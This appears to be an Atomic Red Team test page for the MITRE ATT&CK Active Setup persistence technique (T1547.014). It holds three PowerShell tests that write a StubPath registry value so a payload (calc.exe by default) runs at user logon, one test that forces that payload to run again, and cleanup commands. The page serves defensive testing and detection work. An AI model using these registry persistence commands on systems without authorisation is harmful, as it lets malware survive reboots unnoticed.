 # T1547.014 - Active Setup
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/014)
<blockquote>Adversaries may achieve persistence by adding a Registry key to the Active Setup of the local machine. Active Setup is a Windows mechanism that is used to execute programs when a user logs in. The value stored in the Registry key will be executed after a user logs into the computer.(Citation: Klein Active Setup 2010) These programs will be executed under the context of the user and will have the account's associated permissions level.

Adversaries may abuse Active Setup by creating a key under <code> HKLM\SOFTWARE\Microsoft\Active Setup\Installed Components\</code> and setting a malicious value for <code>StubPath</code>. This value will serve as the program that will be executed when a user logs into the computer.(Citation: Mandiant Glyer APT 2010)(Citation: Citizenlab Packrat 2015)(Citation: FireEye CFR Watering Hole 2012)(Citation: SECURELIST Bright Star 2015)(Citation: paloalto Tropic Trooper 2016)

Adversaries can abuse these components to execute malware, such as remote access tools, to maintain persistence through system reboots. Adversaries may also use [Masquerading](https://attack.mitre.org/techniques/T1036) to make the Registry entries look as if they are associated with legitimate programs.</blockquote>

## Atomic Tests

- [Atomic Test #1 - HKLM - Add atomic_test key to launch executable as part of user setup](#atomic-test-1---hklm---add-atomic_test-key-to-launch-executable-as-part-of-user-setup)

- [Atomic Test #2 - HKLM - Add malicious StubPath value to existing Active Setup Entry](#atomic-test-2---hklm---add-malicious-stubpath-value-to-existing-active-setup-entry)

- [Atomic Test #3 - HKLM - re-execute 'Internet Explorer Core Fonts' StubPath payload by decreasing version number](#atomic-test-3---hklm---re-execute-internet-explorer-core-fonts-stubpath-payload-by-decreasing-version-number)


<br/>

## Atomic Test #1 - HKLM - Add atomic_test key to launch executable as part of user setup
This test will create an "atomic_test" key under 'HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components' to launch calc by configuring an active setup executable and 
forcing to run active setup using the "runonce.exe /AlternateShellStartup" command. 
Without the "runonce.exe /AlternateShellStartup" command it would run during the next logon for each user.

Note: If you logout before running the cleanup command, you will be required to go through the OOBE (out-of-box experience) setup sequence to log back in. 
The payload will only run once unless the cleanup command is run in between tests.

[Active Setup Explained](https://helgeklein.com/blog/active-setup-explained/)

**Supported Platforms:** Windows


**auto_generated_guid:** deff4586-0517-49c2-981d-bbea24d48d71





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | Payload to run once during login | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-Item "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components" -Name "atomic_test" -Force
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" "(Default)" "ART TEST" -Force
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" "StubPath" "#{payload}" -Force 
& $env:SYSTEMROOT\system32\runonce.exe /AlternateShellStartup
```

#### Cleanup Commands:
```powershell
Remove-Item "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" -Force -ErrorAction Ignore
Remove-Item "HKCU:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - HKLM - Add malicious StubPath value to existing Active Setup Entry
This test will add a StubPath entry to the Active Setup native registry key associated with 'Internet Explorer Core Fonts' (UUID {C9E9A340-D1F1-11D0-821E-444553540600}) 
Said key doesn't have a StubPath value by default, by adding one it will launch calc by forcing to run active setup using runonce.exe /AlternateShellStartup. 
Without the last command it will normally run on next user logon. Note: this test will only run once successfully if no cleanup command is run in between test.

**Supported Platforms:** Windows


**auto_generated_guid:** 39e417dd-4fed-4d9c-ae3a-ba433b4d0e9a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | Payload to run once during login | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" "StubPath" "#{payload}" -Force
& $env:SYSTEMROOT\system32\runonce.exe /AlternateShellStartup
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" -Name "StubPath" -Force
Remove-ItemProperty "HKCU:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" -Name "Version" -Force
```





<br/>
<br/>

## Atomic Test #3 - HKLM - re-execute 'Internet Explorer Core Fonts' StubPath payload by decreasing version number
This test will decrease the version number of the 'Internet Explorer Core Fonts' (UUID {C9E9A340-D1F1-11D0-821E-444553540600}) registry key for the current user, 
which will force the StubPath payload (if set) to execute.

**Supported Platforms:** Windows


**auto_generated_guid:** 04d55cef-f283-40ba-ae2a-316bc3b5e78c






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" -Name "Version" -Value "0,0,0,0"
& $env:SYSTEMROOT\system32\runonce.exe /AlternateShellStartup
```






<br/>
